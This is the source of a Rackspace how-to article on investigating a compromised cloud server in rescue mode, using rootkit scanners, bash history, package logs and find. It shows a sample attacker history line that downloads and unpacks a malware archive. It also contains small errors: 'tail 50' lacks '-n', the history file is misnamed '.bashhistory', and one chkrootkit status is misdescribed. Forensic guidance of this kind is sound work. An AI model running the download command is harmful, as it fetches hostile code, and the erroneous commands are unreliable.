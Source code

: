 ```yaml
---
permalink: check-for-a-security-compromise-rescue-mode-investigation/
audit_date: '2018-08-31'
title: 'Check for a security compromise: Rescue mode investigation'
type: article
created_date: '2013-04-26'
created_by: Rose Contreras
last_modified_date: '2018-08-31'
last_modified_by: Cat Lookabaugh
product: Cloud Servers
product_url: cloud-servers
---
```


In the article, [Checking for a security compromise: Back doors and intruders](/how-to/check-for-a-security-compromise-back-doors-and-intruders),
you learned some basic techniques for collecting the information needed to intruders who have compromised your server. This article describes how to use the [Cloud Control Panel's](https://mycloud.rackspace.com/) *Rescue Mode* to take a closer look at your system. You can use rescue mode to better understand how your server was compromised and to identify non-compromised files before backing up the data.

### Activate rescue mode

Because your cloud server's operating system might also be compromised, you cannot rely on it. The intruder could have compromised binaries such as 'ls,' 'find,' and 'netstat,' so their output could mislead you.
Consequently, you must use a different operating system environment to
safely investigate the compromise. You can do this by using the rescue mode feature provided in the [Cloud Control Panel](https://mycloud.rackspace.com/). For instructions and more information, see [Rackspace Cloud Essentials - Rescue Mode on Linux Cloud Servers](/how-to/rackspace-cloud-essentials-rescue-mode-on-linux-cloud-servers).

While your server is in rescue mode, you can perform the following actions to locate the source of the compromise.

### Scan for rootkits

We recommend that you install and use the following tools to scan your system for rootkits.

#### Scan for rootkits with chkrootkit

`chkrootkit` looks for known signatures in compromised binary systems. For example, some compromised versions of `ps` have "`/dev/ptyp`" inside them. We recommend installing `chkrootkit` by using your package manager rather than compiling from source.

1. Run the following command:

        apt-get install chkrootkit

2. Run `chkrootkit` against the mounted file system of the cloud server:

        chkrootkit -r /mnt/demo

The following messages are printed by `chkrootkit` during its tests:

-  `INFECTED` - the test has identified a command probably modified by a known rootkit
-  `not infected` - the test didn't find any known rootkit signature
-  `not tested` - the test was not performed

   This could happen in the following situations:
    - The test is OS specific
    - The test depends on an external program that is not available
    - Some specific command line options are given (for example, `-r`)

-  `not found` - the command to be tested is not found
-  `Vulnerable but disabled` - the command is infected

For more options and information on using `chkrootkit`, see <http://www.chkrootkit.org/README>.

#### Scan for rootkits with rkhunter

Rootkit Hunter (`rkhunter`) checks systems against a database of known rootkits. It can also check other system files to make sure they are in line with expected properties and values.

1. Log in to your terminal application and change to your `sources` directory:

        cd ~/sources

2. Download the latest version of `rkhunter` from the [SourceForge download area](http://sourceforge.net/projects/rkhunter/files/):

        http://sourceforge.net/projects/rkhunter/files/

3. After you install `rkhunter`, run it against `/mnt/demo`.

        rkhunter -c -r /mnt/demo

`rkhunter` produces warnings during the tests that indicate where a file has deviated from expected defaults. Following the test, you can check the log to see more detailed information about which files produced the warning.
For more options and information on using `rkhunter`, see <http://rkhunter.cvs.sourceforge.net/viewvc/rkhunter/rkhunter/files/README>.

### Check last commands

To get an idea of how the cloud server security was breached, check which users ran commands before the cloud server was compromised.

The **.bashhistory** file contains the last commands used with the Bash shell. You need to check the **.bashhistory** files in each user's home directory. The most important **.bashhistory** file is the one belonging to root: **/root/.bashhistory**.

A compromised cloud server might have entries like the following ones:

    wget http://malware.tar.gz
    gunzip malware.tar.gz
    tar xf malware.tar

### Check installed packages

All changes to the packaging system are stored in **/var/log/dpkg.log** on Debian-based distributions. Check this file for any suspicious activity like installed or removed packages, or a modified bus.

Run the following command to show the last 50 lines of the **dpkg.log** file:

    tail 50 /mnt/demo/var/log/dpkg.log

### Use the find command

The `find` command is usually used to find filenames with specific patterns. However, you can also use it to find the files that were modified or accessed within a specific time period.

For example, you can find all files in **/etc** owned by root that have been
modified within the last two days, as follows:

    find /mnt/demo/etc -user root -mtime -2

Available options are as follows:

    -atime: when the file was last accessed
    -ctime: when the file's permissions were last changed
    -mtime: when the file's data was last modified

Note the  minus sign in front of '2' in the preceding example. The 'time' options for the `find` command are expressed in 24-hour increments, and the symbol used in front of the number can indicate *less than* or *greater than*. Thus '-2' means that you want to find files that were modified within the last two days. If you want to find files that were modified more than 2 days ago, use `+2`:

    find /mnt/demo/etc -user root -mtime +2

There are also versions of the `atime`, `ctime`, and `mtime` arguments that
measure time in minutes:

    -amin: when (in minutes) the file was last accessed
    -cmin: when (in minutes) the file's permissions were last changed
    -mmin: when (in minutes) the file's data was last modified

#### Example

Find all of the files in your cloud server owned by the `demo` user
that have been accessed within the last five minutes:

    find /mnt/demo -user demo -amin -5

The following list of `find` command options might be useful while investigating the
compromised cloud server investigation:

    -nouser: shows output not associated with an existing userid
    -nogroup: shows output not associated with an existing groupid
    -links n: file has n links
    -newer file: file was modified more recently than file
    -perm mode: file has mode permissions

### Check logs and suspicious files

You can find an intruder by checking for suspicious files in **/tmp**, **/var/tmp**, **/dev/shm**, **/var/spool/samba**, **/var/spool/squid**, and **/var/spool/cron**.

You can also look at log files in the **/var/log** directory. For example, **auth.log** records user login information, including IP addresses.

### Summary

In [Checking for a security compromise: Backdoors and Intruders](/how-to/check-for-a-security-compromise-back-doors-and-intruders), you learned some techniques to use to discover back doors and track intruders on your cloud server. This will help you to avoid the situation or
mistake that led to the compromise, minimizing the chance of future compromises. In this article, you learned how to investigate your cloud server in rescue mode.

Whether it is caused by viruses, file corruption, machine failure, or
other unforeseen mishaps, the possibility of data loss is real. To avoid the disruption such a loss can cause, back up your files regularly. Following are some options to help you secure your files:

-   [Rackspace Cloud Backup](http://www.rackspace.com/cloud/backup/) is a good choice for Cloud Servers customers. It is fully integrated with Cloud Servers, and is a file-based backup alternative to whole image server backup.
-   For those who prefer to do it themselves, see [Back up your files with rsync](/how-to/backing-up-your-files-with-rsync/).
